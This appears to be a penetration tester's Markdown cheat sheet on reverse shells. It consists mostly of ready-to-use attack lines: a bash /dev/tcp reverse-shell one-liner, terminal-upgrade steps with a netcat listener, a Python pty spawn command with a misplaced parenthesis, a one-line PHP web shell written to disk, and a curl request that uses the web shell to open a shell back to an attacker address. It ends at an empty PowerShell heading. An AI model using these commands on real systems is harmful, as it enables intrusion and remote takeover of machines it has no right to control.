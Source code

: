 # Reverse Shells

## One-Liners

### Bash
Easy Bash
```
bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"
```
* **Shell Upgrades**
  ```bash
  root@target:/backend# script /dev/null -c bash
  script /dev/null -c bash            
  Script started, file is /dev/null
  root@target:/backend# ^Z                 
  [1]+  Stopped                 nc -lnvp 1337
  chuxtr@kali$ stty raw -echo; fg
  nc -lnvp 1337
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@target:/backend#
```
* ** Python Shell Upgrade
  ```bash
  python -c ('import pty; pty.spawn("/bin/bash")'
  ```
### PHP
Simple PHP WebShell
```bash
<?php system($_GET["Chuxtr"]); ?>
```
Example
```bash
echo '<?php system($_GET["Chuxtr"]); ?>' > Chuxtr.php
```
Usage
```bash
# This example produces a bash shell back to the host (Note the URL encoding)
root@kali# curl 'http://127.0.0.1:52846/Chuxtr.php?chuxtr=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.7/1337%200%3E%261%27'
```
## Scripts
### Powershell

